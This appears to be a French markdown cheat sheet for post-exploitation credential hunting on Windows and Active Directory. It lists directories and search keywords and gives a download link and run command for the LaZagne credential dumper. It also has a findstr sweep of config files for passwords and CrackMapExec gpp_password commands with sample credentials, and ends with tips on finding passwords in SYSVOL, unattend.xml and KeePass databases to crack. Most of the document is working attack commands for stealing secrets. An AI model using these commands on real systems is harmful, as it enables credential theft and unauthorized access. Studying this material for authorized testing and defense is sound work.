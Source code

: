```yaml
---
public: true # set to true to make the article publishable
---
```

## Dossiers intéressants
- `c:\`
- `%USERPROFILE%\`
- `%USERPROFILE%\Documents`
- `%USERPROFILE%\Desktop`
## Barre de recherche Windows

Mots à tenter dans la barre de recherche du menu Démarrer

```
Passwords
Passphrases
Keys
Username
User account
Creds
Users
Passkeys
Passphrases
configuration
dbcredential
dbpassword
pwd
Login
Credentials
```

## Lazagne

<https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.5/LaZagne.exe>

```
C:\Users\bob\Desktop> start lazagne.exe all
```

## Findstr

```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Mots de passe dans les stratégies de groupe

```
# cme smb <TARGET[s]> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password

Local admin:
# cme smb 10.0.5.1 -u Administrator -p P@ss123 -d . -M gpp_password
# cme smb 10.0.5.1 -u Administrator -p P@ss123 --local-auth -M gpp_password

Domain user:
# cme smb 10.0.5.1 -u bkpadmin -p P@ss123 -d target.corp -M gpp_password
```

## Autre

Passwords in scripts in different shares :

- SYSVOL
- IT shares

Passwords in web.config files on dev machines and IT shares

unattend.xml

Passwords in the AD user or computer description fields

KeePass databases --> pull hash, crack and get loads of access.

Found on user systems and shares

Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, Sharepoint
